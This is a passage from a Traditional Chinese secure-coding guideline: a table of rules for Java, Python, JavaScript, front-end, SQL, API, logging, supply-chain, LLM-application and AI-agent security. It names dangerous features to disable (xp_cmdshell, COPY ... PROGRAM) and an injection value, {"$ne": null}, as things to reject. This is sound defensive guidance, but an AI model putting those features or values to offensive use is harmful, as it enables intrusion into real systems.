| `SCG-JAVA-006` | 必須 | 解析外部提供的 XML 時，必須禁止 DTD（`http://apache.org/xml/features/disallow-doctype-decl` 設為 `true`）並停用外部實體與外部 DTD 載入；只設定 `FEATURE_SECURE_PROCESSING` 不夠。各種 XML 工廠（`DocumentBuilderFactory`、`SAXParserFactory`、`XMLInputFactory`、`TransformerFactory`、`SchemaFactory`）都必須設定 | [6.3](#63-xml-外部實體xxe) |
| `SCG-JAVA-007` | 必須 | Actuator 只能對外公開 `health`（且不顯示細節）與必要的 `info`；`env`、`heapdump`、`threaddump`、`configprops`、`loggers`、`mappings`、`beans` 等端點不得對外公開，必要時放在獨立的管理埠並要求驗證 | [6.4](#64-spring-boot-的安全設定) |
| `SCG-JAVA-008` | 必須 | CORS 必須明確列出允許的來源（Origin）、方法與標頭；啟用 `allowCredentials` 時不得使用 `*` 或 `allowedOriginPatterns("*")`，也不得把請求的 `Origin` 原樣回傳 | [6.4](#64-spring-boot-的安全設定) |
| `SCG-JAVA-009` | 必須 | 伺服器端樣板必須使用會自動編碼的輸出（Thymeleaf `th:text`、JSP `<c:out>`）；只有在輸出經過 HTML 清理器（OWASP Java HTML Sanitizer）處理的內容時，才能使用 `th:utext` 等不編碼的輸出 | [6.4](#64-spring-boot-的安全設定) |
| `SCG-JAVA-010` | 必須 | 重新導向的目的地若來自請求參數（例如登入後的 `returnUrl`），必須驗證為站內相對路徑或允許清單中的網域；不得把參數直接放進 `redirect:` 或 `sendRedirect` | [6.4](#64-spring-boot-的安全設定) |
| `SCG-PY-001` | 必須 | 執行外部程式必須使用 `subprocess.run` 並以串列傳入參數、保持 `shell=False`（預設值）、設定 `timeout`；不得使用 `os.system`、`os.popen`、`subprocess` 的 `shell=True` 處理含外部輸入的命令 | [7.1](#71-命令執行與動態程式碼) |
| `SCG-PY-002` | 必須 | 不得以 `eval`、`exec`、`compile` 處理外部輸入；需要解析資料時使用 `json.loads`，需要解析 Python 字面值時使用 `ast.literal_eval` | [7.1](#71-命令執行與動態程式碼) |
| `SCG-PY-003` | 必須 | 不得以 `pickle`、`marshal`、`shelve`、`dill`、`joblib.load`、`yaml.load`（非安全載入器）處理不可信的資料；改用 `json` 或 `yaml.safe_load`。載入外部來源的機器學習模型時，應使用 `safetensors` 等不可執行程式碼的格式（見第 16 章） | [7.2](#72-反序列化xml-與正規表示式) |
| `SCG-PY-004` | 必須 | 解析外部提供的 XML 必須使用 `defusedxml`，不得使用標準函式庫的 `xml.etree`、`xml.dom.minidom`、`xml.sax`、`lxml` 預設設定 | [7.2](#72-反序列化xml-與正規表示式) |
| `SCG-PY-005` | 必須 | 以正規表示式驗證整個字串時，必須使用 `re.fullmatch`（或以 `\A...\Z` 錨定）；`re.match` 加上 `$` 會接受結尾的換行字元 | [7.2](#72-反序列化xml-與正規表示式) |
| `SCG-PY-006` | 必須 | 資料庫查詢必須使用驅動程式的參數綁定（`cursor.execute(sql, params)`）或 SQLAlchemy 的繫結參數；不得以 f-string、`%`、`.format()` 或字串串接組合 SQL | [7.3](#73-web-框架與網路存取) |
| `SCG-PY-007` | 必須 | 對外的 HTTP 請求（`requests`、`httpx`、`urllib3`）必須設定逾時，且不得設定 `verify=False` | [7.3](#73-web-框架與網路存取) |
| `SCG-PY-008` | 必須 | 正式環境不得啟用框架的除錯模式（Flask `debug=True`、Django `DEBUG = True`、FastAPI 的除錯例外頁）；Jinja2 必須啟用 `autoescape`；不得對使用者輸入使用 `Markup`、`mark_safe`、`|safe` | [7.3](#73-web-框架與網路存取) |
| `SCG-PY-009` | 必須 | 與安全相關的亂數必須使用 `secrets` 模組；暫存檔必須使用 `tempfile.mkstemp`、`NamedTemporaryFile`、`TemporaryDirectory`，不得使用 `tempfile.mktemp` 或寫死 `/tmp` 下的固定檔名 | [7.3](#73-web-框架與網路存取) |
| `SCG-JS-001` | 必須 | 執行外部程式必須使用 `execFile` 或 `spawn` 並以陣列傳入參數，不得設定 `shell: true`；不得以 `exec`、`execSync` 執行含外部輸入的命令字串 | [8.1](#81-命令動態程式碼與路徑) |
| `SCG-JS-002` | 必須 | 不得以 `eval`、`new Function`、`setTimeout(字串)`、`vm.runInContext` 執行外部輸入；Node.js 的 `vm` 模組**不是**安全沙箱，不得用來隔離不可信的程式碼 | [8.1](#81-命令動態程式碼與路徑) |
| `SCG-JS-003` | 必須 | 以外部輸入組合檔案路徑時，必須以 `path.resolve` 解析後確認結果仍在允許的基底目錄內（以 `base + path.sep` 為前綴比對），或改以 ID 對應到伺服器端決定的檔名 | [8.1](#81-命令動態程式碼與路徑) |
| `SCG-JS-004` | 必須 | 不得將不可信的物件深度合併、複製或以動態鍵值寫入一般物件；應先以 Schema 驗證（只允許預期的鍵），或使用 `Map`、`Object.create(null)`；動態鍵值必須排除 `__proto__`、`constructor`、`prototype` | [8.2](#82-原型污染與正規表示式阻斷服務) |
| `SCG-JS-005` | 必須 | 處理外部輸入的正規表示式不得含有可能造成指數回溯的結構（巢狀量詞、重疊的選擇分支）；必須先限制輸入長度；需要使用者自訂樣式時應使用線性時間的引擎（例如 `re2`） | [8.2](#82-原型污染與正規表示式阻斷服務) |
| `SCG-JS-006` | 必須 | 來自信任邊界外的資料（HTTP 請求、外部 API 回應、訊息佇列、`localStorage`、URL 參數、`postMessage`）必須以執行期 Schema（zod、valibot、Ajv 等）驗證後才轉成型別；不得以 `as` 型別斷言或 `any` 略過驗證 | [8.3](#83-typescript-的型別不是驗證) |
| `SCG-JS-007` | 應該 | TypeScript 專案應啟用 `strict`、`noUncheckedIndexedAccess`、`exactOptionalPropertyTypes`，外部資料的型別應為 `unknown` 而非 `any` | [8.3](#83-typescript-的型別不是驗證) |
| `SCG-JS-008` | 必須 | Node.js Web 伺服器必須限制請求本文大小、設定安全標頭（例如 Express 搭配 `helmet`）、移除 `X-Powered-By`、只在確實位於反向代理之後才設定 `trust proxy`，並以 `NODE_ENV=production` 執行以避免回傳堆疊追蹤 | [8.4](#84-nodejs-伺服器設定) |
| `SCG-JS-009` | 可以 | 處理不可信檔案或執行第三方腳本的 Node.js 程式，可以使用 Node.js 權限模型（`--permission` 搭配 `--allow-fs-read`、`--allow-fs-write`）限制檔案系統、子程序與 Worker 的存取 | [8.4](#84-nodejs-伺服器設定) |
| `SCG-FE-001` | 必須 | 網頁必須以 HTTP 回應標頭設定嚴格的 CSP：`script-src` 使用 nonce（伺服器端產生的頁面）或 hash／`'self'`（靜態單頁應用），並設定 `object-src 'none'`、`base-uri 'none'`（或 `'self'`）、`frame-ancestors`；不得使用 `'unsafe-inline'`、`'unsafe-eval'` 或 `*` 允許腳本 | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-002` | 應該 | 應啟用 Trusted Types（`require-trusted-types-for 'script'`），並把 HTML 清理集中在少數幾個 Trusted Types 政策中；導入初期可先以 `Content-Security-Policy-Report-Only` 收集違規 | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-003` | 必須 | 不得把不可信的資料寫入 `innerHTML`、`outerHTML`、`insertAdjacentHTML`、`document.write`、`srcdoc`；顯示文字使用 `textContent`，必須顯示 HTML 時以 DOMPurify 清理 | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-004` | 必須 | 以不可信資料設定 `href`、`src`、`action`、`formaction` 等 URL 屬性時，必須以 `URL` 解析並確認通訊協定為 `https:`（或 `http:`、`mailto:` 等明確允許的值），拒絕 `javascript:`、`data:`、`vbscript:` | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-005` | 必須 | 從第三方 CDN 載入的腳本與樣式必須加上子資源完整性（`integrity`）與 `crossorigin`；嵌入不可信內容的 `iframe` 必須設定 `sandbox`；以 `window.open` 開啟外部網址時必須使用 `noopener` | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-006` | 必須 | 使用 `postMessage` 時，傳送端必須指定明確的 `targetOrigin`（不得為 `*`），接收端必須檢查 `event.origin` 是否在允許清單中，並驗證訊息內容 | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-007` | 必須 | 前端程式碼中沒有秘密：任何打包到瀏覽器的值（包括 `VITE_*`、`NEXT_PUBLIC_*`、`NG_APP_*` 環境變數）都是公開的，不得放入 API 金鑰、用戶端密鑰或內部系統位址；需要秘密的呼叫必須經由後端（BFF）代理 | [9.1](#91-html-與瀏覽器安全機制) |
| `SCG-FE-008` | 必須 | `v-html` 只能輸出經 DOMPurify 清理的內容，或完全由開發者控制的靜態內容；不得在 `v-html` 中直接放入 API 回應或使用者輸入 | [9.2](#92-vue) |
| `SCG-FE-009` | 必須 | 不得把不可信的內容當作 Vue 樣板（包括執行期編譯 `template` 字串、在掛載點的 DOM 中放入伺服器端輸出的使用者內容）；綁定到 `:href`、`:src` 的使用者資料必須經過 `SCG-FE-004` 的 URL 檢查；`:style` 只能綁定特定屬性，不得綁定整個使用者提供的樣式字串 | [9.2](#92-vue) |
| `SCG-FE-010` | 必須 | 不得對不可信的資料呼叫 `DomSanitizer.bypassSecurityTrustHtml`、`bypassSecurityTrustUrl`、`bypassSecurityTrustResourceUrl`、`bypassSecurityTrustScript`、`bypassSecurityTrustStyle`；不得以 `ElementRef.nativeElement.innerHTML` 或 `Renderer2.setProperty(el, 'innerHTML', …)` 繞過 Angular 的清理 | [9.3](#93-angular) |
| `SCG-FE-011` | 必須 | Angular 應用程式必須設定 CSP（以 `ngCspNonce`／`CSP_NONCE` 提供 nonce，或以 `security.autoCsp` 產生 hash），並啟用 Trusted Types（`trusted-types angular angular#bundler`）；必須保持 Angular 在受支援的版本並及時套用安全修補 | [9.3](#93-angular) |
| `SCG-FE-012` | 必須 | `dangerouslySetInnerHTML` 只能輸出經 DOMPurify 清理的內容；不得以 `ref.current.innerHTML` 繞過；`href` 綁定使用者資料時仍須經 `SCG-FE-004` 的 URL 檢查（不要依賴框架行為作為唯一防線） | [9.4](#94-react) |
| `SCG-FE-013` | 必須 | Server Functions（`'use server'`）與 Route Handler 都是公開的 HTTP 端點：每一個都必須自行驗證身分、檢查授權（第 4 章）並以 Schema 驗證參數（`SCG-JS-006`），不得假設「只有我的頁面會呼叫它」；不得把秘密或完整的資料庫物件傳給 Client Component | [9.4](#94-react) |
| `SCG-FE-014` | 必須 | 使用 React Server Components 的專案（Next.js App Router、React Router RSC 等）適用伺服器端的修補時限（`SCG-SDL-005`），必須訂閱 React 與框架的安全公告 | [9.4](#94-react) |
| `SCG-FE-015` | 必須 | 不得以使用者輸入組合 class 名稱或行內樣式（例如以樣板字串組合 `bg-${color}-500`，或 `style={{ backgroundImage: 'url(' + userUrl + ')' }}`）；必須以「業務值 → 完整 class 字串」的對照表限制在允許的樣式中。以使用者輸入控制版面可能造成假介面（UI redressing），例如蓋住警告訊息或偽造按鈕 | [9.5](#95-tailwind-css) |
| `SCG-FE-016` | 必須 | 正式環境不得使用 Tailwind 的瀏覽器端版本（v4 的 `@tailwindcss/browser`、v3 的 Play CDN `cdn.tailwindcss.com`），它在執行期產生並注入樣式，需要放寬 CSP；必須使用建置期產生的靜態 CSS | [9.5](#95-tailwind-css) |
| `SCG-SQL-001` | 必須 | 所有 SQL 中的**值**都必須以參數綁定傳入（`PreparedStatement`、具名參數、ORM 參數）；不得以字串串接、`String.format`、樣板字串或 f-string 把外部輸入放進 SQL | [10.1](#101-參數化查詢) |
| `SCG-SQL-002` | 必須 | MyBatis 只能使用 `#{}`，不得對外部輸入使用 `${}`；JPA 的 `createQuery`、`createNativeQuery`、Spring Data 的 `@Query` 不得串接字串；`IN` 條件必須綁定集合參數，不得自行以逗號串接 | [10.1](#101-參數化查詢) |
| `SCG-SQL-003` | 必須 | 動態的表格名稱、欄位名稱、排序欄位與排序方向，必須以允許清單（列舉或對照表）把外部輸入對應到程式中的常數，不得把外部輸入直接放進 SQL；找不到對應時拒絕請求或使用預設值 | [10.2](#102-識別字排序與-like) |
| `SCG-SQL-004` | 應該 | `LIKE` 查詢應跳脫使用者輸入中的萬用字元（`%`、`_` 與跳脫字元本身），並限制搜尋字串的最短長度，避免 `%` 造成全表掃描與資料大量列出 | [10.2](#102-識別字排序與-like) |
| `SCG-SQL-005` | 應該 | 應用程式的查詢應設定逾時（連線池、驅動程式或資料庫層級的 `statement_timeout`）與最大回傳筆數，避免單一請求耗盡資料庫資源 | [10.3](#103-查詢資源與其他查詢語言) |
| `SCG-SQL-006` | 必須 | NoSQL（MongoDB 等）查詢不得把未驗證的請求物件直接當作查詢條件；必須先驗證型別（例如確認是字串而不是 `{"$ne": null}` 這類運算子物件），或使用會拒絕運算子的函式庫設定（例如 Mongoose 的 `sanitizeFilter`） | [10.3](#103-查詢資源與其他查詢語言) |
| `SCG-SP-001` | 必須 | 預存程序內的動態 SQL，所有**值**都必須以綁定變數傳入（`EXECUTE ... USING`、`EXECUTE IMMEDIATE ... USING`、`sp_executesql`、`PREPARE`＋`USING`）；不得以 `\|\|` 或 `+` 串接參數值；不需要動態 SQL 時應使用靜態 SQL | [11.1](#111-預存程序中的動態-sql) |
| `SCG-SP-002` | 必須 | 動態 SQL 中的識別字（表格、欄位、排序）必須先以允許清單對應，再以資料庫提供的識別字引用函式處理（`format('%I')`、`DBMS_ASSERT`、`QUOTENAME`）；Db2 沒有內建函式，必須只使用允許清單中的常數 | [11.1](#111-預存程序中的動態-sql) |
| `SCG-SP-003` | 必須 | 以定義者權限執行的程序（PostgreSQL `SECURITY DEFINER`、Oracle `AUTHID DEFINER`、SQL Server `EXECUTE AS OWNER`）不得包含以參數組成的動態 SQL；PostgreSQL 的 `SECURITY DEFINER` 函式必須以 `SET search_path` 固定搜尋路徑（並把 `pg_temp` 放在最後），避免呼叫者以同名物件劫持 | [11.2](#112-執行權限與最小權限) |
| `SCG-SP-004` | 必須 | 應用程式帳號只能被授予它需要的程序的 `EXECUTE` 權限；PostgreSQL 必須撤銷新函式預設授予 `PUBLIC` 的 `EXECUTE` 權限（`REVOKE EXECUTE ... FROM PUBLIC` 並設定 `ALTER DEFAULT PRIVILEGES`） | [11.2](#112-執行權限與最小權限) |
| `SCG-SP-005` | 必須 | 預存程序不得吞掉錯誤（Oracle `WHEN OTHERS THEN NULL`、T-SQL 空的 `CATCH`、PL/pgSQL 空的 `EXCEPTION WHEN OTHERS`）；捕捉例外時必須記錄必要的情境並重新拋出；T-SQL 修改資料的程序應設定 `SET XACT_ABORT ON`，確保錯誤時整個交易回復 | [11.3](#113-錯誤處理稽核與危險功能) |
| `SCG-SP-006` | 必須 | 應用程式的預存程序不得使用作業系統與網路存取功能（SQL Server `xp_cmdshell`、`OPENROWSET` 存取檔案、Oracle `UTL_FILE`、`UTL_HTTP`、`DBMS_SCHEDULER` 外部工作、PostgreSQL `COPY ... PROGRAM`、`dblink` 連往任意主機、Db2 外部常式）；這些功能應在伺服器層級停用，確有需要時另設專用帳號並經核准 | [11.3](#113-錯誤處理稽核與危險功能) |
| `SCG-API-001` | 必須 | API 的 OpenAPI 契約必須為每個字串欄位定義 `maxLength`（必要時加上 `pattern` 或 `format`）、為數值定義 `minimum`／`maximum`、為陣列定義 `maxItems`，物件設定 `additionalProperties: false`；回應的 Schema 只能包含呼叫者需要的欄位 | [12.2](#122-輸入輸出與錯誤格式) |
| `SCG-API-002` | 必須 | API 的錯誤回應必須使用一致的格式（建議 RFC 9457 Problem Details），只包含對呼叫者有用的資訊；不得包含堆疊追蹤、SQL 語句、內部主機名稱、框架版本或例外類別名稱 | [12.2](#122-輸入輸出與錯誤格式) |
| `SCG-API-003` | 必須 | API 必須拒絕非預期的 `Content-Type` 與 HTTP 方法（回 415／405），且不得因為 `Content-Type` 不同而改用不同的解析器（例如收到 `application/xml` 就以 XML 解析） | [12.2](#122-輸入輸出與錯誤格式) |
| `SCG-API-006` | 應該 | 非冪等且有業務影響的操作（付款、轉帳、下單、寄送通知）應支援 `Idempotency-Key`：伺服器記錄每個鍵的處理結果，重複的請求回傳第一次的結果而不重複執行，避免重送與重放造成重複扣款 | [12.3](#123-敏感業務流程與第三方-api) |
| `SCG-API-007` | 必須 | 正式環境不得存在除錯、測試、範例端點（例如 `/test`、`/debug`、Swagger UI 的未授權存取、`/h2-console`）；已停用的 API 版本必須下線，不得只是「文件不再列出」；所有對外 API 必須登錄在 API 清冊中 | [12.3](#123-敏感業務流程與第三方-api) |
| `SCG-API-008` | 必須 | 呼叫第三方 API 時，必須把回應視為不可信的輸入：驗證回應的 Schema 與大小、設定逾時、限制或停用自動重新導向、驗證 TLS 憑證；不得把第三方回應直接寫入資料庫或輸出到頁面 | [12.3](#123-敏感業務流程與第三方-api) |
| `SCG-API-004` | 必須 | 每個對外 API 都必須有速率限制；登入、驗證碼、密碼重設、註冊、查詢個資等高風險端點必須依「帳號」與「來源」分別限制；超過時回 429 並附 `Retry-After`；多個執行個體時，計數必須存放在共享儲存（Redis 等）或由 Gateway 處理 | [12.4](#124-速率限制) |
| `SCG-API-005` | 必須 | 批次操作（一次處理多筆）、匯出、搜尋等成本較高的 API 必須有個別的筆數上限與較嚴格的速率限制；長時間的匯出應改為非同步工作 | [12.4](#124-速率限制) |
| `SCG-API-009` | 必須 | GraphQL 端點必須限制查詢深度與複雜度、限制單一請求的批次查詢數量、在正式環境停用或限制內省，並在每個欄位解析器（resolver）檢查授權 | [12.5](#125-graphql-與-websocket) |
| `SCG-API-010` | 必須 | WebSocket 必須在握手時驗證身分並檢查 `Origin`（防止跨站 WebSocket 劫持）、限制訊息大小與頻率，並對每則訊息的操作檢查授權 | [12.5](#125-graphql-與-websocket) |
| `SCG-IO-001` | 必須 | 檔案上傳必須：限制大小與數量；以**檔案內容**（magic number）判斷型別並比對副檔名允許清單，不得相信用戶端的 `Content-Type` 與副檔名；以伺服器產生的隨機名稱存放在網站根目錄之外、沒有執行權限的位置；在提供下載或後續處理之前完成防毒掃描 | [13.1](#131-檔案上傳) |
| `SCG-IO-002` | 必須 | 使用者上傳的檔案提供下載時，必須以 `Content-Disposition: attachment` 與 `X-Content-Type-Options: nosniff` 回應；HTML、SVG、XML 等可能含腳本的格式不得以內嵌方式從主網域提供，應改由獨立的下載網域提供，或轉換為安全格式（例如把圖片重新編碼） | [13.1](#131-檔案上傳) |
| `SCG-IO-003` | 必須 | 以外部輸入決定檔案路徑時，應優先以 ID 對應到伺服器端決定的路徑；無法避免時，必須以 `Path.resolve(...).normalize()` 解析後確認結果仍在基底目錄內（`startsWith(base)` 以 `Path` 比較，不是字串比較），並拒絕絕對路徑與符號連結 | [13.2](#132-路徑穿越與壓縮檔) |
| `SCG-IO-004` | 必須 | 解壓縮外部提供的壓縮檔時，必須檢查每個項目的路徑（防止 Zip Slip）、限制項目數量、單檔與總解壓縮大小以及壓縮比（防止壓縮炸彈） | [13.2](#132-路徑穿越與壓縮檔) |
| `SCG-IO-005` | 必須 | 依外部輸入發出的請求，必須優先以允許清單限制目的主機；無法使用允許清單時（例如使用者自訂 Webhook），必須只允許 `https`、解析 DNS 後拒絕迴路、私有、鏈路本地（含 `169.254.169.254`）、CGNAT、多播、IPv6 唯一本地與 IPv4 對映位址，並以檢查過的 IP 連線、停用自動重新導向 | [13.3](#133-伺服器端請求偽造ssrf) |
| `SCG-IO-006` | 應該 | 除了程式碼檢查之外，應以網路層限制伺服器的對外連線（Kubernetes NetworkPolicy、出口代理、雲端 IMDSv2 或停用中繼資料服務），作為縱深防禦 | [13.3](#133-伺服器端請求偽造ssrf) |
| `SCG-LOG-001` | 必須 | 14.1 表格中的安全事件必須以結構化格式（JSON 或 key=value）記錄，包含誰、何時、在哪裡、做什麼、結果與追蹤碼；安全事件應使用獨立的日誌名稱（例如 `SECURITY`），方便轉送 SIEM 與設定警示 | [14.1](#141-安全事件記錄) |
| `SCG-LOG-002` | 必須 | 日誌不得記錄密碼、權杖、Session ID、API 金鑰、完整卡號、CVV、完整身分證字號、完整帳號、加密金鑰與請求本文中的敏感欄位；必要時只記錄遮罩後的值或雜湊 | [14.1](#141-安全事件記錄) |
| `SCG-LOG-003` | 必須 | 寫入日誌的使用者可控資料必須防止日誌注入：使用結構化日誌（JSON 會跳脫換行與控制字元），或在純文字日誌中把 CR、LF 與其他控制字元取代或跳脫 | [14.1](#141-安全事件記錄) |
| `SCG-LOG-004` | 必須 | 安全與稽核日誌必須防止竄改與刪除（集中收集、應用程式帳號只能新增、保存期限符合法規與合約），且存取日誌本身也必須有權限控管與紀錄 | [14.1](#141-安全事件記錄) |
| `SCG-LOG-005` | 必須 | 不得吞掉例外（空的 `catch`、只印出 `e.printStackTrace()`、`catch` 後回傳 `null` 或預設值而不記錄）；例外必須在適當的層級處理：能處理就處理並記錄，不能處理就往上拋，由統一的錯誤處理器（`SCG-API-002`）轉成安全的回應 | [14.2](#142-例外處理與失敗安全) |
| `SCG-LOG-006` | 必須 | 例外發生時必須釋放資源並維持一致的狀態：使用 try-with-resources（Java）、`with`（Python）、`finally`／`using`（JavaScript）；修改多筆資料的操作必須在交易中進行，例外時回復 | [14.2](#142-例外處理與失敗安全) |
| `SCG-LOG-007` | 應該 | 應為重要的安全事件設定警示門檻（例如同一帳號 5 分鐘內登入失敗 20 次、同一使用者 1 小時內匯出 1,000 筆以上個資、授權服務錯誤率超過 1%），並定期演練警示是否送達正確的人 | [14.2](#142-例外處理與失敗安全) |
| `SCG-SUP-001` | 必須 | CI 必須以 SCA 工具（OSV-Scanner、OWASP Dependency-Check、`npm audit`、`pip-audit`、GitHub Dependabot）掃描直接與間接相依套件；CVSS 7.0 以上或列入 CISA KEV 的弱點必須阻擋合併 | [15.1](#151-相依套件的弱點與鎖定) |
| `SCG-SUP-002` | 必須 | 相依套件的鎖定檔（`package-lock.json`、`pnpm-lock.yaml`、`uv.lock`、`poetry.lock`、Gradle `gradle.lockfile`）必須提交到版本控制；CI 必須以不修改鎖定檔的方式安裝（`npm ci`、`pnpm install --frozen-lockfile`、`uv sync --locked`）；Maven 不得使用版本範圍與 `LATEST`、`RELEASE` | [15.1](#151-相依套件的弱點與鎖定) |
| `SCG-SUP-003` | 應該 | 自動更新相依套件（Renovate、Dependabot）應設定冷卻期，新發布的版本經過至少 1–3 天才採用（安全修補可例外）；套件管理工具應啟用最短發布時間（npm 11.10 起的 `min-release-age`、pnpm 11 起預設 1440 分鐘的 `minimumReleaseAge`） | [15.1](#151-相依套件的弱點與鎖定) |
| `SCG-SUP-004` | 必須 | 新增相依套件前必須確認：套件確實存在於官方套件庫且名稱正確（不是拼字相近的仿冒套件，也不是 AI 虛構的名稱）、有持續維護、授權與公司政策相容、沒有未修補的高風險弱點；能以標準函式庫或既有套件完成時不新增套件 | [15.2](#152-新增相依套件與安裝腳本) |
| `SCG-SUP-005` | 必須 | 安裝相依套件時不得自動執行其安裝腳本（npm `ignore-scripts=true`、pnpm 預設行為搭配 `allowBuilds` 允許清單）；確實需要建置腳本的套件必須逐一列入允許清單並經審查 | [15.2](#152-新增相依套件與安裝腳本) |
| `SCG-SUP-006` | 必須 | GitHub Actions 等 CI 工作流程必須：以完整 commit SHA 固定第三方 Action；在工作流程或工作層級設定最小的 `permissions`；不得在 `run` 中直接插入可由外部控制的內容（`${{ github.event.issue.title }}`、`${{ github.head_ref }}` 等），應先放入環境變數；不得在 `pull_request_target` 中簽出並執行 PR 的程式碼 | [15.3](#153-cicd-管線與建置產物) |
| `SCG-SUP-007` | 必須 | 每個發布版本都必須產生 SBOM（CycloneDX 或 SPDX）並與建置產物一起保存，作為弱點影響分析的依據 | [15.3](#153-cicd-管線與建置產物) |
| `SCG-SUP-008` | 應該 | 建置產物（容器映像、JAR）應產生建置來源證明（provenance）並簽章（Sigstore cosign、GitHub Artifact Attestations），部署端應驗證簽章，目標達到 SLSA Build Level 2 以上 | [15.3](#153-cicd-管線與建置產物) |
| `SCG-AI-001` | 必須 | 所有進入模型的內容（使用者輸入、檢索文件、網頁、工具結果）都必須視為不可信；授權、金額上限、資料範圍等安全控制必須在模型之外的程式碼中執行，不得以系統提示中的文字（「不要洩漏……」、「只能查詢自己的資料」）作為安全控制 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-002` | 必須 | 模型輸出必須視為不可信的輸入：使用前以 Schema 驗證結構化輸出；顯示時以文字輸出或經 DOMPurify 清理（`SCG-FE-003`）；不得把模型輸出直接放進 SQL、Shell、`eval`、檔案路徑、URL 請求或程式碼執行 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-003` | 必須 | 提供給模型的工具必須是最小集合，並以呼叫者（終端使用者）的身分與權限執行，不得使用共用的高權限帳號；寫入、刪除、付款、對外寄送等高影響操作必須經人工確認；工具的參數必須在執行前以 Schema 驗證 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-004` | 必須 | 系統提示不得包含秘密（金鑰、內部網址、帳號）；RAG 檢索必須依使用者的權限過濾文件（在向量資料庫查詢時套用權限條件，而不是取回後再請模型「不要顯示」）；送往外部模型服務的內容必須符合資料分級規定 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-005` | 必須 | LLM 端點必須限制輸入長度、輸出 token 數、單一使用者的請求頻率與每日用量、工具呼叫的迴圈次數，並設定逾時與費用上限 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-006` | 應該 | 自行載入的模型與資料集應來自可信來源、驗證雜湊值，並使用不能執行程式碼的格式（`safetensors`、ONNX）；不得以 `pickle`、`torch.load`（未設 `weights_only=True`）載入外部模型 | [16.1](#161-llm-應用的安全) |
| `SCG-AI-007` | 必須 | AI 程式碼代理不得持有正式環境的憑證；必須以權限設定禁止讀取秘密檔案（`.env`、金鑰、憑證）與執行高風險命令（任意網路傳輸、刪除、部署），高風險操作必須經人工核准；處理不可信內容（外部 Issue、網頁）時應在沙箱或容器中執行 | [16.2](#162-ai-程式碼助理與代理的使用) |
| `SCG-AI-008` | 必須 | 提供給 AI 代理的 MCP 伺服器與外掛必須來自可信來源、固定版本，並以最小權限的權杖執行；新增 MCP 伺服器視同新增相依套件（`SCG-SUP-004`）審查 | [16.2](#162-ai-程式碼助理與代理的使用) |
| `SCG-CFG-001` | 必須 | 所有回應 HTML 或 API 資料的服務都必須設定 17.1 表格中的安全標頭；Spring Security 的預設標頭不得被停用（`headers.disable()`），只能調整；含個資的回應必須設定 `Cache-Control: no-store` | [17.1](#171-http-安全標頭) |
| `SCG-CFG-002` | 必須 | 正式環境的設定必須是「安全的預設值」：除錯模式、詳細錯誤、API 文件介面、資料庫主控台、範例程式、預設帳號都必須關閉或移除；安全相關設定應寫在預設設定檔中，由開發環境的設定檔放寬，而不是反過來 | [17.2](#172-環境設定與預設值) |
| `SCG-CFG-003` | 必須 | 各環境設定檔的差異必須納入程式碼審查；影響安全的設定（CORS、Actuator、Session、TLS、日誌層級）變更必須由 CODEOWNERS 審查（`SCG-SDL-004`） | [17.2](#172-環境設定與預設值) |
| `SCG-CFG-004` | 必須 | 容器映像必須以非 root 使用者執行、以 digest 固定基礎映像、使用最小化的基礎映像（JRE 而非 JDK、distroless 或 slim），且不得在映像層中留下秘密（不得以 `ENV`、`ARG`、`COPY` 放入秘密；建置時需要的秘密使用 BuildKit 的 `--mount=type=secret`） | [17.3](#173-容器與-kubernetes-清單) |
| `SCG-CFG-005` | 必須 | Kubernetes 工作負載必須設定 `securityContext`：`runAsNonRoot: true`、`allowPrivilegeEscalation: false`、`readOnlyRootFilesystem: true`、`capabilities.drop: [ALL]`、`seccompProfile.type: RuntimeDefault`，並設定資源請求與上限；不得使用 `privileged`、`hostNetwork`、`hostPath` | [17.3](#173-容器與-kubernetes-清單) |
| `SCG-CFG-006` | 必須 | CI 必須掃描容器映像（Trivy、Grype）與基礎架構程式碼（Checkov、Trivy config），高風險以上的發現必須阻擋發布 | [17.3](#173-容器與-kubernetes-清單) |
| `SCG-REV-001` | 必須 | 修改安全敏感程式碼（`SCG-SDL-004` 列出的範圍）的 Pull Request，審查者必須依下列檢查清單逐項確認，並在審查意見中記錄已確認；CI 的 SAST、SCA、秘密掃描與授權測試必須全部通過 | [20.2](#202-pull-request-檢查項目) |
| `SCG-REV-002` | 必須 | 發布到正式環境之前，發布管線必須確認：SAST、SCA、映像掃描沒有未核准的高風險發現；所有例外都在有效期限內；SBOM 已產生並保存；正式環境設定經過審查；處理個資或金流的系統在重大變更後完成 DAST 掃描。任何一項未通過即停止發布 | [20.3](#203-部署前檢查項目) |
| `SCG-REV-003` | 必須 | 審查 AI 產生的程式碼時，審查者必須依序完成：①執行建置與所有工具（不只是看程式碼）；②確認所有引用的類別、方法、設定屬性、套件都真實存在；③對照本指引第 19 章與各節的「AI 常見錯誤」逐項檢查；④確認安全機制沒有被關閉或繞過；⑤確認有涵蓋失敗情境與攻擊輸入的測試 | [20.4](#204-ai-產出的審查流程) |
| `SCG-REV-004` | 必須 | 修正弱點時必須：先寫出能重現的測試；找出根本原因；以相同模式搜尋程式庫中的其他位置（變體分析）；修正後加入回歸測試（`SCG-SDL-006`）；若工具沒有發現該問題，應新增工具規則（例如 Semgrep 自訂規則） | [20.5](#205-弱點與資安事件的開發者責任) |
| `SCG-REV-005` | 必須 | 發生或疑似發生資安事件時，開發者不得自行刪除日誌、重新部署或清除環境，必須先保全證據並依通報流程處理；不得在公開管道（公開的 Issue、社群、AI 對話）討論尚未修補的弱點細節 | [20.5](#205-弱點與資安事件的開發者責任) |

---

## 附錄 B 工具設定

本附錄收錄各章「驗證方式」引用的工具設定。所有設定都在本指引的驗證環境中實際執行過（版本與結果見附錄 F.2），可以直接複製到專案中使用。

### B.1 Semgrep 自訂規則

Semgrep 的官方規則集（`p/default`、`p/java`、`p/javascript`、`p/typescript`、`p/python`、`p/secrets`）涵蓋大部分常見弱點；下列自訂規則補上本指引特有的檢查。規則檔放在程式庫的 `.semgrep/scg-rules.yml`，CI 以 `semgrep scan --config p/default --config .semgrep/ --error` 同時執行。

